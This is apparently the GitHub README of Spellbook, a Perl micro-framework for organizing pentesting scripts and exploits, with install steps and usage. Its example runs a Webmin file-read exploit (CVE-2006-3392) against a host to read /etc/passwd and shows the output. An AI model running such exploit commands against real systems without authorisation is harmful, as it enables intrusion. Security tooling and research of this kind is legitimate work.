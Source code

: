 <p align="center">
  <img src="https://heitorgouvea.me/images/projects/spellbook/logo.png" width="120px" height="120px">
  <h3 align="center"><b>Spellbook</b></h3>
  <p align="center">A micro-framework for rapid development of reusable security tools</p>
  <p align="center">
    <a href="https://github.com/htrgouvea/spellbook/blob/master/LICENSE.md">
      <img src="https://img.shields.io/badge/license-MIT-blue.svg">
    </a>
    <a href="https://github.com/htrgouvea/spellbook/releases">
      <img src="https://img.shields.io/badge/version-0.0.9-blue.svg">
    </a>
  </p>
</p>

---

### Summary

Here you will find a "spellbook" with my personal scripts, exploits and other small things I wrote during my bug hunting jorney, pentesting or red teaming missions. Like any other spellbook, some things here are not going to be very easy to understand, it couldn't be different, right?

Spellbook uses FBP: "In computer programming, flow-based programming (FBP) is a programming paradigm that defines applications as networks of "black box" processes, which exchange data across predefined connections by message passing, where the connections are specified externally to the processes. These black box processes can be reconnected endlessly to form different applications without having to be changed internally. FBP is thus naturally component-oriented." [[1]](#references)

The main focus of this "micro-framework" is to keep my personal scripts organized and make them available in a structure where I can reuse the code that has already been written to write something else. Furthermore, the Spellbook is just a research project that so far is no big deal and does not replace a truly robust framework.

---

### Download and install

```
  # Download
  $ git clone https://github.com/htrgouvea/spellbook && cd spellbook

  # Install libs and dependencies
  $ cpan install Getopt::Long Mojo::File Mojo::JSON
```

---

### How to use

```
Spellbook v0.0.9
Core Commands
==============
	Command          Description
	-------          -----------
	-s, --search     List modules, you can filter by category
	-m, --module     Set a module to use
	-t, --target     Set a target
	-p, --parameter  Set a value for a module parameter
```

### Example

```bash
# Searching for exploits 
$ perl spellbook.pl --search exploits

Module: Exploits::CVE_2017_5487
Description: Read usernames leaked on WordPress API
=================================================

Module: Exploits::CVE_2006_3392
Description: Read arbitrary files for servers running Webmin before 1.290 and Usermin before 1.220
=================================================
...

# Using an exploit
$ perl spellbook.pl -m Exploits::CVE_2006_3392 -t http://172.30.0.15:10000/ -p /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
...
```

If you are interested in developing new modules, a good start is to read the [development guide](/docs/Developer_Guide.md).

---

### Contribution

- Your contributions and suggestions are heartily ♥ welcome. [See here the contribution guidelines.](/.github/CONTRIBUTING.md) Please, report bugs via [issues page](https://github.com/htrgouvea/spellbook/issues) and for security issues, see here the [security policy.](/SECURITY.md) (✿ ◕‿◕) This project follows the best practices defined by this [style guide](https://heitorgouvea.me/projects/perl-style-guide).

---

### License

- This work is licensed under [MIT License.](/LICENSE.md)

---

### References

1. [https://en.wikipedia.org/wiki/Flow-based_programming](https://en.wikipedia.org/wiki/Flow-based_programming)